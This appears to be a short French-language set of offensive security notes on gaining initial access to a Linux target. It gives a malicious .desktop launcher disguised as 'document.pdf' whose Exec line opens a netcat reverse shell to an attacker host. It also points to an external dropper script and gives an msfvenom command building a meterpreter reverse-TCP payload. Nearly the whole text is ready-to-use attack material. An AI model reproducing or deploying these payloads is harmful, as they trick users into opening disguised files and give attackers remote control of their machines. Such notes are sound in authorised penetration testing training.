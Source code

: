 Fait partie la phase de l'access initial

Le but est d'envoyer un fichier `.desktop` a notre cible et obtenir un reverse shell.

```sh
[Desktop Entry]
Type=Application
Name=document.pdf
Exec=/bin/nc -e /bin/sh 192.168.45.128 4444
Icon=/home/kali/Pictures/test.png
```

Download `LinDrop.py`at https://www.obscurechannel.com/x42/code.html

```sh
msfvenom --platform linux -p linux/x86/meterpreter/reverse_tcp LPORT=9001 LHOST=192.168.45.128 -f ef > payload
```